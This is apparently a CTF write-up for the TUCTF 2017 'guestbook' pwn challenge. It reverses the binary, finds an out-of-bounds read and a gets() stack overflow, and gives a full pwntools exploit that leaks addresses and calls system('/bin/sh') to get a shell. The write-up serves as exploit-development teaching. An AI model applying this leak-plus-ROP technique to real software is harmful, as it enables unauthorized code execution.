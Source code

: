 ```yaml
---
layout: post
title: TUCTF17 PWN 250
tags: [ctf, pwn, write-up, tuctf17, infoleak, ROP]
---
```


### Challenge: [guestbook](../ctfs/tuctf17/pwn/guestbook/guestbook)
(**PS**: *libc was provided for this challenge*)

### Reversing
Let's start with basic analysis of given binary
```bash
$ file ./guestbook
guestbook: ELF 32-bit LSB shared object, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, for GNU/Linux 2.6.32, BuildID[sha1]=bc73592d4897267cd1097b0541dc571d051a7ca0, not stripped
$ checksec ./guestbook
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      PIE enabled
```
So we have PIE and NX enabled, which in most scenarios require combination of information leak and ROP (Return Oriented Programming). I quickly fire up IDA for further analysis.
```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  char s; // [sp+0h] [bp-98h]@16
  int v5; // [sp+64h] [bp-34h]@11
  int v6; // [sp+68h] [bp-30h]@7
  char *dest[4]; // [sp+6Ch] [bp-2Ch]@2
  char v8; // [sp+7Fh] [bp-19h]@5
  int (**v9)(const char *); // [sp+80h] [bp-18h]@4
  char **v10; // [sp+84h] [bp-14h]@4
  char *v11; // [sp+88h] [bp-10h]@2
  char v12; // [sp+8Fh] [bp-9h]@4
  int i; // [sp+90h] [bp-8h]@1

  setvbuf(stdout, 0, 2, 0x14u);
  puts("Please setup your guest book:");
  for ( i = 0; i <= 3; ++i )
  {
    printf("Name for guest: #%d\n>>>", i);
    v11 = (char *)malloc(0xFu);
    __isoc99_scanf("%15s", v11);
    v11[14] = 0;
    dest[i] = v11;
  }
  v10 = dest;
  v9 = &system;
  v12 = 1;
  while ( v12 )
  {
    do
      v8 = getchar();
    while ( v8 != 10 && v8 != -1 );
    puts("---------------------------");
    puts("1: View name");
    puts("2: Change name");
    puts("3. Quit");
    printf(">>");
    v6 = 0;
    __isoc99_scanf("%d", &v6);
    switch ( v6 )
    {
      case 2:
        printf("Which entry do you want to change?\n>>>");
        v5 = -1;
        __isoc99_scanf("%d", &v5);
        if ( v5 >= 0 )
        {
          printf("Enter the name of the new guest.\n>>>");
          do
            v8 = getchar();
          while ( v8 != 10 && v8 != -1 );
          gets(&s);
          strcpy(dest[v5], &s);
        }
        else
        {
          puts("Enter a valid number");
        }
        break;
      case 3:
        v12 = 0;
        break;
      case 1:
        readName((int)dest);
        break;
      default:
        puts("Not a valid option. Try again");
        break;
    }
  }
  return 0;
}

int __cdecl readName(int a1)
{
  int result; // eax@2
  int v2; // [sp+0h] [bp-8h]@1

  printf("Which entry do you want to view?\n>>>");
  v2 = -1;
  __isoc99_scanf("%d", &v2);
  if ( v2 >= 0 )
    result = puts(*(const char **)(4 * v2 + a1));
  else
    result = puts("Enter a valid number");
  return result;
}
```
Above is the decompiled pseudo code generated by IDA hex-rays plugin. Here as the code suggests, binary takes input for four guests and assigns each a numerical entry (eg #1). After this binary gives out a menu with three options, we can either choose to view name in a guest entry or change name in a guest entry or simply select `quit` option which return the `main`. There is a interesting block of code that is spotted instantly, `Change name` section uses `gets` function to take input on the stack which can allow us to overwrite return address. But where to return to? Meaning we still have to bypass PIE by getting an info leak. To get that, there is a user-defined function `readName` in `View name` section. This function takes array of string `dest` which is a stack variable for `main` function, as argument and asks user for the entry of `dest` to be printed on console. Now here lies the second vulnerability. Entry integer value doesnt have a max value check inplace. So we can use this to leak stuff on the stack. Now lets see if there is anything interesing on stack.

### Exploitation

```bash
gdb-peda$ stack 500
...
0112| 0xffffd22c --> 0x56558008 --> 0x41 ('A')
0116| 0xffffd230 --> 0x56558428 --> 0x42 ('B')
0120| 0xffffd234 --> 0x56558440 --> 0x43 ('C')
0124| 0xffffd238 --> 0x56558458 --> 0x44 ('D')
0128| 0xffffd23c --> 0xa5559f1 
0132| 0xffffd240 --> 0xf7e2cfa0 (<system>:	sub    esp,0xc)
0136| 0xffffd244 --> 0xffffd22c --> 0x56558008 --> 0x41 ('A')
0140| 0xffffd248 --> 0x56558458 --> 0x44 ('D')
0144| 0xffffd24c --> 0x1000000 
0148| 0xffffd250 --> 0x4 
0152| 0xffffd254 --> 0x0 
0156| 0xffffd258 --> 0x0 
0160| 0xffffd25c --> 0xf7e09456 (<__libc_start_main+246>:	add    esp,0x10)
...
```  
Above is the stack view taken from `gdb-peda`. [0x56558008, 0x56558428, 0x56558440, 0x56558458] is what `dest` looks like. Buf if we request for 6 index in `dest`, 0xffffd22c address will be printed as a string which will inturn leak out heap address `0x56558008` and system address `0xf7e2cfa0`. After getting this leak we can craft our payload for stack based buffer overflow in `Change name` section.
Final buffer overflow payload will be (custom values are added in between *eip offset buffer* due to `strcpy` call just after the `gets` call)
`'/bin/sh\x00' + "A"*92 + p32(0) + p32(0) + p32(heap_addr)*4 + "B"*32 + p32(system_addr) + "JUNK" + p32(heap_addr) + "\n"`
Here `heap_addr`*4 has been added to overwrite `dest` variable's array elements. With this in the next `strcpy` call, `/bin/sh` gets written on the `heap_addr` providing us argument for `system` ROP chain.
Below is the final exploit script
```python
from pwn import *

def ch_name(index, name):
    r.recvuntil(">>")
    r.sendline("2")
    r.recvuntil(">>>")
    r.sendline(str(index))
    #r.interactive()
    r.recvuntil(">>>")
    r.sendline(name)

def vw_name(index):
    r.recvuntil(">>")
    r.sendline("1")
    r.recvuntil(">>>")
    r.sendline(str(index))

r = process("./guestbook")

# providing guest names
for i in range(4):
    r.recvuntil(">>>")
    r.sendline(chr(0x41 + i)*4)

# leak stack address
vw_name(6)
leak = r.recv(24)
heap_addr = u32(leak[0:4])
log.info("heap address: 0x{:x}".format(heap_addr))
system_addr = u32(leak[20:24])
log.info("system address: 0x{:x}".format(system_addr))
# overwriting return address
ch_name(0, '/bin/sh\x00' + "A"*92 + p32(0) + p32(0) + p32(heap_addr)*4 + "B"*32 + p32(system_addr) + "JUNK" + p32(heap_addr) + "\n")
#gdb.attach(r)
# triggering shell
r.sendline("3")
r.recvuntil(">>")
r.interactive()
```
Exploit script [link](../ctfs/tuctf17/pwn/guestbook/sploit.py)